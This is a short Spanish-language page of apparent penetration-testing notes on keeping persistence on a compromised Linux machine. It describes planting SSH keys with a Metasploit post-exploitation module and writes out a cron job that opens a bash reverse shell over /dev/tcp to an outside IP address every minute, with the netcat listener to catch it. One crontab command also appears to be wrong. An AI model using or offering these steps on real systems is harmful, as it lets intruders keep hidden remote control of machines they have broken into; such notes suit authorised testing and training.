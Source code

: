 <h1 align="center">PERSISTENCIA EN LINUX</h1>

## **Persistencia a través de SSH**

Una vez que hemos conseguido vulnerar una máquina Linux, podemos establecer persistencia a través de SSH utilizando Metasploit, siempre y cuando tengamos permiso para editar la carpeta .ssh del usuario.

- use post/linux/manage/sshkey_persistence.

Este módulo generará automáticamente una clave pública y privada para todos los usuarios del sistema.Establece la opción CREATESSHFOLDER en true para que el módulo cree la carpeta .ssh si no existe y guarde las claves allí.  

El módulo generará las claves y te indicará dónde se guarda la clave privada del usuario actual en tu máquina local

## **Persistencia a través de Cron Jobs**

Si has conseguido acceso a una máquina Linux con un usuario normal, no podrás modificar el archivo /etc/crontab. Sin embargo, puedes modificar el archivo crontab del usuario actual utilizando el comando crontab -l.

Vamos a añadir una tarea cron que ejecute una reverse shell cada minuto.

- echo "\* \* \* \* \* /bin/bash -c '/bin/bash -i >& /dev/tcp/192.151.138.2/1234 0>&1'" > cron
- crontab -i cron
- crontab -l

Deberías ver la línea que ejecuta la reverse shell cada minuto, establece la escucha y conseguirás la shell

- nc -lvnp 1234

